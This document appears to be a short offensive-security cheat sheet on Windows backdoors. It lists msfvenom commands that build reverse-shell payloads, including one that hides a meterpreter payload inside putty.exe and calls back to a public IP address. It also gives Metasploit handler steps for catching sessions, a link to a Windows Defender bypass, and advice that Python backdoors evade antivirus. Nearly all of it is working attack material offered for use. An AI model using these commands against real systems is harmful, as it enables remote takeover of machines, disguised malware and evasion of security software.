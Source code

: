 Windows Backdoors:

Payloads: (No chance beacause of windows defender)

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe<br>
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py

Payloads hidden in exe:<br>

$ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=213.32.70.39 LPORT=7777 -x ../putty.exe -f exe-only -o ~/Samples/Bad/putty64-777.exe<br>

Working exploit that avoids windows defender:<br>
https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon

Host:
<br>
- MSFCONSOLE<br>
    - use /exploit/multi/handler<br>
	- set payload windows/meterpreter/reverse_tcp<br>
	- set LHOST [IP]<br><br>
	- set LPORT [Port]<br>
	- set ExitOnSession false<br>
	- exploit -j -z<br>
	- sessions -l<br>
	- sessions -i 2<br>
Python backdoors are safer, as they are not checked by windows defender. There is always a risk with the firewall though.
